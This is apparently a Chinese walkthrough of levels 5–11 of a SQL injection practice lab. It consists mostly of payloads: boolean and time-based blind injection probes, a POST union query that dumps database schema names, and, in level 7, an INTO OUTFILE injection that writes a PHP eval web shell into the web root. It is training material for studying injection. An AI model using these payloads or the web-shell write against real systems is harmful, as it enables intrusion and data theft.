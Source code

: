 - 第五关（盲注）

```
1' and left(version(),1)=5 --+

and length(database()=8) --+

```

![](https://ae01.alicdn.com/kf/Hb883745ed1ce492a884339e7de533bdcx.jpg)

![](https://ae01.alicdn.com/kf/Hf27fa54ffcc54c9984fac57c3f57351c4.jpg)

- 第六关（盲注）
```
1" and left(version(),1)=5 --+
```


- 第七关
```
?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\yijuhua.php"--+
```
![](https://ae01.alicdn.com/kf/H844a3c2b8fde4386aaa6b6c9f3a59e12M.jpg)

- 第八关

```
id=1'and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

![](https://ae01.alicdn.com/kf/H0112f5ad375745818885eaaa69e7519c5.jpg)

- 第九关

```
id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)
```

![](https://ae01.alicdn.com/kf/He5d4b152525840af9d31a17ac0965f5fl.jpg)

- 第十关

```
id=1" and if(ascii(substr(database(),1,1))=115,sleep(5),1) --+
```

![](https://ae01.alicdn.com/kf/H283cf3f0d9274d558c8622a7e1053947J.jpg)

- 第十一关（POST开始）

```
uname=admin
&passwd=-admin' union select 1,(select group_concat(schema_name) from information_schema.schemata) #
&submit=Submit
```
![](https://ae01.alicdn.com/kf/H5ea3fe9be0c44a20abbd27a43601437f9.jpg)

